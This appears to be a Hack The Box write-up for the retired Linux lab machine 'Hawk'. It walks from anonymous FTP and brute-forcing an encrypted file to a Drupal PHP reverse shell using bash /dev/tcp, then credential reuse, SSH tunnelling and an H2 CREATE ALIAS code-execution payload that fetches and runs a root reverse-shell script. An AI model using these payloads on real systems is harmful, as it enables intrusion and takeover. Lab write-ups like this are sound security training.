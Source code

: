 ```yaml
---
layout: post
title: Hack The Box - Hawk
permalink : /HackTheBox-Hawk/
image: /hackthebox/hawk/0.png
---
```


<hr>
#### Hawk has retired and this is my write-up about it.
#### It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
### Nmap
#### Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
#### We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
### FTP
#### Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
#### We could login as anonymous and we got a file called : .drupal.txt.enc
#### Since it ends with .enc then it's an encrypted file.
#### Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
#### So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
#### Now the file is ready for bruteforcing.
<br>
<hr>
### Decrypting The File
#### To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
#### It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
#### Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
#### I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
#### You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
#### Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
#### Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
### Drupal
#### We see in the message that the password is for a portal. But what portal?
#### Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
#### We see that it's running drupal CMS 
#### Let's login with the credentials we have.
#### Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
#### After we enumerate for a while we will see some interesting stuff.
#### The content tab which allows us to add content and the modules tab.
#### If we tried to add content we will get two options : Article or a basic page.
#### We will focus on basic pages for sure but we can only use html , filtered html and plain text .
#### Let's look in the modules tab.
#### We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
#### Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
#### Let's check our listener.
![](/images/hackthebox/hawk/11.png)
#### bam we got a low privilege shell as www-data !
<br>
<hr>
### Privilege Escalation to daniel
#### So we're now in as www-data let's check sensetive files first.
#### In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensetive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
#### We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
#### We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
#### And we got user ! :D
<br>
<hr>
### Accessing H2 Database
#### Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
#### Sounds familiar ? Yup the H2 Database.
#### If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
#### Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
#### Remote connection is disabled. This means that we can only connect locally.
#### To bypass that we will use ssh tunneling.
#### And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
#### Now if we visit our localhost on port 8080 we will get the login page.
#### By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
#### Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
#### It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
### Abusing H2 Database ALIAS and Privilege Escalation to root
#### Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
#### Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
#### First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
#### Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
#### And we see root :D
<br>
<br>
#### *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
#### now since we can execute system commands it's over ! We can get a root shell.
#### But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
#### Another way is to use msfvenom but it's not needed here because the exploit is simple.
#### First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
#### Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
#### Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
#### We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
#### Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
#### And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
#### We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
#### And we get a shell as root ! :D
<br>
<br>
<br>
#### That was Hawk. Feedback is appreciated ! 
#### Thanks for reading.
<br>
<hr>
